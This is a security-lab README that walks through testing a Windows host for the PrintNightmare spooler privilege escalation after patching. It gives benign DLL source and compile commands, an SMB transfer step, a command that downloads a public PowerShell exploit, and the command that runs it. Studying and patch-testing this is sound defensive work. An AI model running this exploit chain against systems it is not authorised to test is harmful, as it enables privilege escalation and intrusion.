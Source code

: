 # Test if you are still vulnerable to PrintNightmare's privesc after patching

PrintNightmare (CVE-2021-1675 / CVE 2021 34527) is an exploit that takes advantage of the AddPrintDriver function of the Spooler to execute files with high-privs.

There is some confusion around the patches released by Microsoft on 6th July 2021. It seems the RCE portion of the exploit is patched, but the privilege escalation may still be vulnerable.

We have put together a step-by-step to run a test PoC to see if the recent patch has been effective for your machine. This guide will do no damage to your machine, neither should it crash the machine or spooler. It will simply write `C:\PrintNightmare.txt`

Thanks to John Hammond and Caleb Stewart from Huntress for releasing this [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) of PrintNightmare

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

If spooler isn't running, won't be vulnerable, you can quit here and now.
Otherwise if running, begin exploitation.

## DLL

If you trust us enough, we have a [pre-compiled DLL you can download from right here](nightmare.dll). Please check the hash matches

```bash
sha256sum nightmare.dll
#hash should be 894a086c62adbf9181e7c70f06f3d16364ce9019e9b041bc4d39f5c5193d8769
```

This DLL will just create an innocent, non-malicious file, with no contents:*C:\Printnightmare.txt*

Otherwise, you are welcome to follow the guidance below to compile the DLL yourself. Clicking the drop-down arrow below will open up compile guidance


<details>
    <summary>Compile non-malicious DLL</summary>


## Prepare non-Malicious DLL
Run this on your attacker box

#### Install Dependencies
```bash
sudo apt install gcc-mingw-w64
sudo apt install g++-mingw-w64-x86-64
```
### Write the Dll
```bash
nano nightmare.cpp
```

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to C:\

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### Compile DLL
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)

</details>
 
  
## Transfer DLL however you like, impacket's smbserver.py works
### In Kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### Copy from Kali to in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress

```powershell
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1
```

#### Deploy Exploit
```powershell
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"
```
![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### Check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

It doesn't matter what its contents is, it just matters that it exists. 

### For any questions, comments, and criticisms, please find us on Twitter at [LABS](https://twitter.com/jumpseclabs?lang=en) or on [MAIN](https://twitter.com/jumpsec)
